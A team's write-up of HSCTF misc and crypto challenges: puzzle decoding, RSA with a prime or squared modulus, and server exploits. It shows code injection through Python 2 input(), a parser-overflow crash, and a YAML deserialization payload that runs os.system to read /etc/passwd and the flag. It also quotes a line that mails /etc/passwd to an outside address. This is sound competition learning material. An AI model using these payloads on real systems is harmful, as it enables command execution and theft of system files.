

A High School CTF event.



We tried to solve challenges as much as possible we can and as a reult we secured 23 position globally.


Challenge  Name | Points | Flag
------------ | ------------- | ---------------
 | |
 | |
 | |
 | |
 | |
 | |
 | |
 | |
 | |
 | |
 | |
 | |
 | |
 | |
 | |
 | |
 | |
 | |
 | |
 | |
 | |
 | |
 | |
 | |
 | |


So I will try to discuss the challenges i loved the most here:


# **MISC**

## A Simple Conversation-:
> description: 


### Solution:
 
On looking to the section of source code we see

```python
print("What's your age?")

age = input("> ")

sleep(1)

```
Then I try to think that when it parses the input to input() then it tries to evaluate it first that is is it string , dictionary ,tuple or etc. So guessing the flag is on the server I try to send the arguments as yu can see.

```streaker@DESKTOP-DS7FIJL:$ nc misc.hsctf.com 9001
Hello!
Hey, can you help me out real quick.
I need to know your age.
What's your age?
> open("flag").read()
Traceback (most recent call last):
  File "talk.py", line 18, in <module>
    age = input("> ")
  File "<string>", line 1, in <module>
IOError: [Errno 2] No such file or directory: 'flag'
streaker@DESKTOP-DS7FIJL:$ nc misc.hsctf.com 9001
Hello!
Hey, can you help me out real quick.
I need to know your age.
What's your age?
> open("flag.txt").read()
Wow!
Sometimes I wish I was hsctf{plz_u5e_pyth0n_3}
...
```
There you can see the flag:`hsctf{plz_u5e_pyth0n_3}`

## Broken_Repl-:
> description: 


 ### Solution:
 
```python
    try: # try to compile the input
                code = compile(line, "<input>", "exec") # compile the line of input
            except (OverflowError, SyntaxError, ValueError, TypeError, RecursionError) as e: # user input was bad
                print("there was an error in your code:", e) # notify the user of the error
            if False: exec(code) # run the code
            # TODO: find replacement for exec
            # TODO: exec is unsafe
except MemoryError: # we ran out of memory
    # uh oh
    # lets remove the flag to clear up some memory
    print(flag) # log the flag so it is not lost
```
You can see that you have to cause memoory error only. So my teammate Lucas looked on web and finds out [this](https://stackoverflow.com/questions/50709371/ast-literal-eval-memory-error-on-nested-list).
So you can see that we can cause memory error from nested list.Great learning :smiley:

```python
echo "[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]" | nc misc.hsctf.com 8550
>>> s_push: parser stack overflow
hsctf{dont_you_love_parsers}
```
There is the flag:`hsctf{dont_you_love_parsers}`
    
## Hidden Flag-:
> description: 


 ### Solution:
 
 I opened up my hexeditor HXD a great tool to change and view the hexes of file quite easily and
 I see messed up bytes in beginning.
 
 
 
 
 Then at the end of the file i see some text `key is invisible`.
 So then i realise that the bytees must be xored with the key and we got it by this [script](assets/misc/fixchall.py).
 
```python
import binascii
from itertools import cycle,izip

f=open("chall.png")
g=(f.read())
key="invisible"
ciphered = ''.join(chr(ord(c)^ord(k)) for c,k in izip(g, cycle(key)))
l=open("fixed.png","a+")
l.write(ciphered)

```
That's it :smiley:


 
## 64+Word -:
> description: 


### Solution :
So from the description we see the word search and challenge name is 64+. So we need to do base64 word search of flag.
Be sure as the base64 encode texts are multiple of 4 . So chose the texts accordingly.Here is the [Script](/assets/misc/ord64.py)

```python
from  base64 import *
file=open("64word.txt")
data=file.read().split("\n")
o=0
while o<100:
    g=data[o:]
    for q in range(100):
        j=q
        s=""
        for i in g:
            if j>=len(i):
                break
            s+=i[j]
            j+=1
        possible_text=(b64decode(s[:4*(len(s)//4)]))
        if "hsctf{" in possible_text[:6]:
            end_ind=possible_text.find('}')+1
            print("The flag is "+ possible_text[:end_ind] )
            exit(0)
    o+=1

```

then there is the flag:`The flag is hsctf{b4s3_64_w0rd_s3arch3s_ar3_fu9?}`

## Broken gps-:
> description:
Input Format:


A challenge to test some coding skills.

### Solution:
Here's the [script](assets/misc/dir_gps.py) thats explain it all.

```python
import math

suffix=".txt"
flag=""
dirs=["east","west","south","north","northwest","northeast","southeast","southwest"]
for i in range(1,13):
    up=0
    right=0
    filename=str(i)+suffix
    f=open(filename)
    h=(f.read()).split()
    for q in range(int(h[0])):
        pos=dirs.index(h[q+1])
        if pos==0 or pos==5 or pos==6:
            right+=1
        if pos==1 or pos==4 or pos==7:
            right-=1
        if pos==3 or pos==4 or pos==5:
            up+=1
        if pos==2 or pos==6 or pos==7:
            up-=1
    flag+=chr(round(math.sqrt(up*up+right*right)*2)%26+97)
print('hsctf{'+flag+'}')
            
```
and here is the output:
>hsctf{garminesuckz}

## RealReversal-:
> description: 


### Solution:
On opening file we see 


Reversing the file means reversing the hexes.So one liner will do that 

```open("reversed_reversed.txt", "wb").write(open("reversed.txt", "rb").read()[::-1])```

and on opening reversed file you see utf-8 chars


Explanation:Why it happens that on the reverse bytes we can't see any characters, because 

>UTF-8 is a variable width character encoding capable of encoding all 1,112,064 valid code points in Unicode using one to four 8-bit bytes.

So on reversing 8 bytes it messed up as it reversed in two parts of four and four.Thus resulting in random chars.
So you can see the flag now:`hsctf{utf8_for_the_win}`

## JsonInfo-:
> description: 


### Solution:
Trying few thing we see that it accepts string and show that it's json or give the error otherwise.
So We quite stuck on thinking that what kind of error we have to produce.Then googling skills had to come as it is misc, so we found a beautiful [link](https://bzdww.com/article/164589/) and in section 5 we see yaml.load
and here is the warning:

>Refer to the PyYAML documentation:

>Warning: It is not safe to call yaml.load with data received from an untrusted source! Yaml.load is just as powerful as pickle.load, so you can call any Python function.
In this beautiful example found in the popular Python project Ansible , you can provide this value as (valid) YAML to Ansible Vault, which calls os.system() with the parameters provided in the file.

>!!python/object/apply:os.system ["cat /etc/passwd | mail me@hack.c"]
Therefore, effectively loading YAML files from user-supplied values ​​will open the door for attacks.

>repair:

>Always use yaml.safe_load unless you have a very good reason.

So we tried to do these thing as instructed here to see if the vulnerability is here:

```
Welcome to JSON info!
Please enter your JSON:
!!python/object/apply:os.system ["cat /etc/passwd "]
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
syslog:x:101:102::/home/syslog:/usr/sbin/nologin
Type int is unsupported
Please use a valid JSON array or object
Thank you for using JSON info!

```
SO yeah the vulnerability is here, Great!!!

```
streaker@DESKTOP-DS7FIJL:$ nc -q 1 misc.hsctf.com 9999
Welcome to JSON info!
Please enter your JSON:
!!python/object/apply:os.system ["cat flag.txt"]
hsctf{JS0N_or_Y4ML}
Type int is unsupported
Please use a valid JSON array or object
Thank you for using JSON info!
```
The flag is:`hsctf{JS0N_or_Y4ML}`


# **CRYPTO**

## Massive Rsa-:
> description: 


### Solution:

We are given with large modulus and ciphertext
```
n = 950687172821200540428729809153981241192606941085199889710006512529799315561656564788637203101376144614649190146776378362001933636271697777317137481911233025291081331157135314582760768668046936978951230131371278628451555794052066356238840168982528971519323334381994143826200392654688774136120844941887558297071490087973944885778003973836311019785751636542119444349041852180595146239058424861988708991060298944680661305392492285898022705075814390941667822309754536610263449507491311215196067928669134842614154655850281748314529232542980764185554607592605321212081871630106290126123668106453941684604069442637972979374182617204123679546880646955063471680804611387541602675808433185504968764805413712115090234016146947180827040328391684056285942239977920347896230959546196177226139807640271414022569186565510341302134143539867133746492544472279859740722443892721076576952182274117616122050429733446090321598356954337536610713395670667775788540830077914016236382546944507664840405622352934380411525395863579062612404875578114927946272686172750421522119335879522375883064090902859635110578120928185659759792150776022992518497479844711483878613494426215867980856381040745252296584054718251345106582780587533445417441424957999212662923937862802426711722066998062574441680275377501049078991123518677027512513302350533057609106549686502083785061647562269181863107725160293272971931807381453849850066056697913028167183570392948696346480930400320904644898839942228059188904225142187444604612121676565893284697317106343998167640380023972222033520190994951064491572372368101650142992876761420785551386138148283615194775971673577063363049929945959258097086463812469068598955485574579363616634109593903116561526921965491646400040600138481505369027344295330767163087489333402201631708610718911106905154471963379233672543874307197342217544783263700843246351822145605839955798639016346308363889766574606793652730311687899415585873892778899179927359964882217066947566799298173326850382334054179474389651499891117938361854701587568363867264590395711833275763832842002504433841816245069655064326325306033334336469743800464944131049874472540605264250854258280373869113420817955012823462838351481855289027030577957168468047751024562853260494808998446682723835213272609799649864902376137320638444968430858790173696935815430513690803796736064125183005539073920032869713201073105497655763097638587404309062750746064609677994654409535743453776560694719663801069746654445359756195253816544699551
e = 65537
c = 358031506752691557002311547479988375196982422041486602674622689505841503255891193495423484852537391230787811575487947331018616578066891850752360030033666964406349205662189685086812466246139857474435922486026421639388596443953295273675167564381889788905773472245885677132773617051291379731995063989611049809121305468803148551770792609803351375571069366930457307762595216806633327492195442616272627113423143562166655122764898972565860928147259322712805600875994388377208017608434714747741249858321487547543201109467214209112271771033615033493406609653861223917338109193262445432032609161395100024272041503554476490575517100959892951805088735483927048625195799936311280172779052715645263075391841840633949032397082918665057115947698884582406130793211266028238396814146117158924884049679536261009188784571232730683037831940224049822081316216826346444136538278601803972530054219050666898301540575647763640218206611889707353810593843233814867745903144987805142815936160730054575462147126944741419094810558325854901931279755547624294325463528887326262902481099025253153222985717157272371423956465138892784879439141174797253720403065191378958340033965895823856879711180993895832306970105743588207727415495184380531676665121800713201192348940665501790550763379781627493441276077597720109700408848080221149485596419299548121287851605588246207568970548444975309457244824469026820421430723018384050095117420646392648577894835705672984626936461419833136418809219064810002991383584690376016818146065548853387107821627387061145659169570667682815001659475702299150425968489723185023734605402721950322618778361500790860436305553373620345189103147000675410970964950319723908599010461359668359916257252524290941929329344189971893558606572573665758188839754783710992996790764297302297263058216442742649741478512564068171266181773137060969745593802381540073397960444915230200708170859754559500051431883110028690791716906470624666328560717322458030544811229295722551849062570074938188113143167107247887066194761639893865268761243061406701905009155852073538976526544132556878584303616835564050808296190660548444328286965504238451837563164333849009829715536534194161169283679744857703254399005457897171205489516009277290637116063165415762387507832317759826809621649619867791323227812339615334304473447955432417706078131565118376536807024099950882628684498106652639816295352225305807407640318163257501701063937626962730520365319344478183221104445194534512033852645130826246778909064441514943
```
It's really large So I thought to check anyways on ecc factoring for its to be prime and we got that its really a massive prime number.
So then I realize that choosing a large modulus so that it can be factorized into p & q which should be unknown for the sake of security. But if its a prime number then we have to just calculate euler totient of n i.e. n-1 , and then calculate `d=modInverse(e,phi(n))` and tada we have private exponent, then just basic stuffs.
```python
>>> import binascii
>>> binascii.unhexlify(hex(pow(c,d,n))[2:])
'hsctf{forg0t_t0_mult1ply_prim3s}'
```
So the flag is :`hsctf{forg0t_t0_mult1ply_prim3s}`


## Massive Rsa-:
> description: 


### Solution:

We are given with  modulus and ciphertext
```
n = 263267198123727104271550205341958556303174876064032565857792727663848160746900434003334094378461840454433227578735680279553650400052510227283214433685655389241738968354222022240447121539162931116186488081274412377377863765060659624492965287622808692749117314129201849562443565726131685574812838404826685772784018356022327187718875291322282817197153362298286311745185044256353269081114504160345675620425507611498834298188117790948858958927324322729589237022927318641658527526339949064156992164883005731437748282518738478979873117409239854040895815331355928887403604759009882738848259473325879750260720986636810762489517585226347851473734040531823667025962249586099400648241100437388872231055432689235806576775408121773865595903729724074502829922897576209606754695074134609
e = 65537
c = 63730750663034420186054203696069279764587723426304400672168802689236894414173435574483861036285304923175308990970626739416195244195549995430401827434818046984872271300851807150225874311165602381589988405416304964847452307525883351225541615576599793984531868515708574409281711313769662949003103013799762173274319885217020434609677019589956037159254692138098542595148862209162217974360672409463898048108702225525424962923062427384889851578644031591358064552906800570492514371562100724091169894418230725012261656940082835040737854122792213175137748786146901908965502442703781479786905292956846018910885453170712237452652785768243138215686333746130607279614237568018186440315574405008206846139370637386144872550749882260458201528561992116159466686768832642982965722508678847
```
Then I factored n on factordb.
I got that n is the square of a prime number.Then just again simple basic stuffs calculate euler totient of n i.e. p*(p-1) , and then calculate `d=modInverse(e,phi(n))` and tada we have private exponent, then just basic stuffs.

```
>>> p=16225510719965861964299051658340559066224635411075742500953901749924501886090804067406052688894869028683583501052917637552385089084807531319036985272636554557876754514524927502408114799014949174520357440885167280739363628642463479075654764698947461583766215118582826142179234382923872619079721726020446020581078274482268162477580369246821166693123724514271177264591824616458410293414647
>>> import gmpy2
>>> d=gmpy2.invert(e,p*(p-1))
>>> import binascii
>>> binascii.unhexlify(hex(pow(c,d,n))[2:])
'hsctf{square_number_time}'
```
So the flag is :`hsctf{square_number_time}`
